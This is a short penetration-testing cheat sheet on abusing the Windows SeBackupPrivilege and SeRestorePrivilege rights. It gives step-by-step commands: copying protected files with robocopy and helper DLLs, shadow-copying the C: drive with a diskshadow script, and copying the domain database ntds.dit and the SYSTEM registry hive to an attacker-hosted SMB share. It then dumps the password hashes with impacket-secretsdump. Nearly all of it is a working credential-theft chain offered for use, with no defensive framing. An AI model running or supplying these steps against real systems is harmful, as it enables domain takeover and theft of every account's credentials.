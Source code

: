 ```yaml
---
title: "SeBackupPrivilege/SeRestorePrivilege"
date: 2024-7-18
tags: ["SeBackupPrivilege", "SeRestorePrivilege", "privesc", "Windows", "Backup Operators", "diskshadow", "secretsdump"]
---
```


### Abuse #1: Robocopy

```console
# For example
robocopy /b <TARGET_DIR_PATH> C:\Windows\Tasks <TARGET_FILE>
```

---

### Abuse #2: Using helper dlls

```console
import-module .\SeBackupPrivilegeCmdLets.dll
```

```console
import-module .\SeBackupPrivilegeUtils.dll
```

```console
Copy-FileSeBackupPrivilege <TARGET_FILE_PATH> C:\ProgramData\<TARGET_FILE>
```

```console
# For example
Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit C:\ProgramData\ntds.dit
```

<small>*Ref: [SeBackupPrivilegeUtils.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll?raw=true)*</small>
<br>
<small>*Ref: [SeBackupPrivilegeCmdLets.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll?raw=true)*</small>

---

### Abuse #3: Diskshadow

#### 1. Create a .dsh file

```console
set context persistent nowriters
set metadata C:\ProgramData\test.cab
set verbose on
add volume c: alias test
create
expose %test% x:
```

<br>

```console
# Convert to dos format
unix2dos vss.dsh
```

#### 2. Run vss.dsh

```console
# Upload and run
diskshadow /s C:\ProgramData\vss.dsh
```

#### 3. Host a smb server (In Linux)

```console
impacket-smbserver share . -smb2support
```

#### 4. Copy to local Linux

```console
net use \\<LOCAL_IP>\share
```

```console
Copy-FileSeBackupPrivilege x:\Windows\ntds\ntds.dit \\<LOCAL_IP>\share\ntds.dit
```

```console
reg.exe save hklm\system \\<LOCAL_IP>\share\system
```

#### 5. Secrets dump

```console
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```
